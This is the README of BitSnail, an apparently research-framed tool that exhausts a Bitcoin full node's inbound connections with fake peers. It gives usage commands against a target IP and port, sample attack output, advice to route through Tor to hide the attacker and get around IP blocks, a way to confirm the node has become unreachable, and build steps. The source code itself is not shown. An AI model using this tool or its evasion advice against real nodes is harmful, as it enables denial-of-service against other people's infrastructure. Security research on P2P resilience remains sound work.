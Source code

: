 # BitSnail

BitSnail - an experimental program to exhaust inbound TCP connections of a Bitcoin client (a Bitcoin full node). This could possibly slow down the entire Bitcoin P2P network if used in a scaled up attack.

```
    .----.   ₿   ₿
   / .-"-.`.  \v/
   | | '\ \ \_/ )
 ,-\ `-.' /.'  /
'---`----'----'
```

See https://peterkleissner.com/2019/07/22/security-audit-of-the-bitcoin-p2p-network-getting-started/ for details of the security research behind this. It explains how to get started to audit the Bitcoin P2P network.

Features:
* The first Bitcoin peer ddos software!
* Modify it to to test a variety of attacks.
* Supports Tor as proxy

This tool was developed just with 1 day of work and is not optimized. The result could be probably far better by tweaking the amount of connections, timeouts and an automated increase/decrease of connection attempts. BitSnail does not detect if the source IP was blocked.

Disclaimer: This tool may only be used for security research purposes. Use it only in a controlled environment. Do not use it for unlawful purposes.

## Use

```
BitSnail [IP:Port] [optional flag tor=Executable of Tor]

Examples:
BitSnail 1.2.3.4:8333
BitSnail 1.2.3.4:8333 tor=tor.exe
```

Example output:

```
Wait 10 seconds for 4 Tor proxy instances to connect
Try to create 125 concurrent fake peers, target is X.X.X.X:8333. Initially it will wait for 3 active fake peers and then wait 1 second before creating each new fake peer.
---------
Active Fake Peers 0 -- Attempts to connect 0 -- Currently sleeping 125 -- handshake errs 0
Active Fake Peers 3 -- Attempts to connect 2 -- Currently sleeping 120 -- handshake errs 0
Active Fake Peers 4 -- Attempts to connect 3 -- Currently sleeping 118 -- handshake errs 0
Active Fake Peers 10 -- Attempts to connect 2 -- Currently sleeping 113 -- handshake errs 0
Active Fake Peers 12 -- Attempts to connect 5 -- Currently sleeping 108 -- handshake errs 0
Active Fake Peers 15 -- Attempts to connect 7 -- Currently sleeping 103 -- handshake errs 0
Active Fake Peers 18 -- Attempts to connect 9 -- Currently sleeping 98 -- handshake errs 0
Active Fake Peers 23 -- Attempts to connect 9 -- Currently sleeping 93 -- handshake errs 0
Active Fake Peers 27 -- Attempts to connect 10 -- Currently sleeping 88 -- handshake errs 0
Active Fake Peers 28 -- Attempts to connect 13 -- Currently sleeping 84 -- handshake errs 0
Active Fake Peers 31 -- Attempts to connect 16 -- Currently sleeping 78 -- handshake errs 0
Active Fake Peers 28 -- Attempts to connect 24 -- Currently sleeping 73 -- handshake errs 0
Active Fake Peers 34 -- Attempts to connect 23 -- Currently sleeping 68 -- handshake errs 0
...
```

BitSnail will initially wait until 3 active fake peers are created before proceeding to create more. It will wait 1 second before creating each new fake peer. Therefore, it may take 2 minutes until all the connection slots in the remote peer are exhausted and the remote peer effectively inaccessible.

To use Tor, you must download the expert bundle from the Tor website. The current latest version for Windows 64-bit is: https://dist.torproject.org/torbrowser/8.5.4/tor-win64-0.4.0.5.zip

If you enable Tor and close the application the Tor processes may still run in the background. Either terminate them manually in the Task Manager or via command line (Windows only):

```
taskkill /F /IM tor.exe
```

## How-to check if the attack is successful

You can go to https://bitnodes.earn.com/ and enter the target IP address and click on "Check Node".

## Compile

You need [Go](https://golang.org/dl/) to compile the project. Before compilation you need to download the dependencies:

```
go get -u github.com/btcsuite/btcd/wire
```

To compile the project (on Windos this will create the `BitSnail.exe`):

```
go build
```

## Privacy

You can enable Tor as described in the use section to conceal your real IP address. This can be useful to bypass IP blocking.
The default User Agent is set to `/BitSnail:0.1.0/`. You can change it in `main.go`.

## Version History

```
1   7/22/2019

Initial version.
```
